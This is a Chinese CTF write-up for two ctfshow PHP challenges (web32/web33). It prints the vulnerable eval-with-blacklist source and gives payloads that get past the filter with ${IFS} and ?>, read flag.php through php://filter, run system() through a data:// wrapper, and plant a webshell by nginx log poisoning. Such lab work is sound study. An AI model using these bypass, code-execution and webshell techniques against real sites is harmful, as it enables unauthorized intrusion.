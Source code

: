这题屏蔽了关键词 /flag|system|php|cat|sort|shell|\.| |\'|\`|echo|\;|\(

*过滤了空格可以用`${IFS}`和`%0a` 代替，分号可以用`?>`代替*

用include构造payload：

> url/?c=include$_GET[1]?>&1=php://filter/convert.base64-encode/resource=flag.php
>
> 或者
>
> url/?c=include$_GET[1]?>&1=data://text/plain,<?php%20system("tac%20flag.php")?>

得到的结果用base64解码一下就可以得到flag了

或者用日志注入：

> url/?c=include$_GET[1]?%3E&1=../../../../var/log/nginx/access.log
> `/var/log/nginx/access.log是nginx默认的access日志路径，访问该路径时，在User-Agent中写入一句话木马，然后用中国蚁剑连接即可`

#### web33

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-04 00:12:34
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-04 02:22:27
# @email: h1xa@ctfer.com
# @link: https://ctfer.com
*/
//
error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'|\`|echo|\;|\(|\"/i", $c)){
        eval($c);
    }
    
}else{
    highlight_file(__FILE__);
}
```

屏蔽的关键词比上一题多了个双引号 /flag|system|php|cat|sort|shell|\.| |\'|\`|echo|\;|\(|\"

继续使用include构造payload：

> url/?c=include$_GET[1]?>&1=php://filter/convert.base64-encode/resource=flag.php
>
> 或者
>
> url/?c=include$_GET[1]?>&1=data://text/plain,<?php%20system("tac%20flag.php")?>
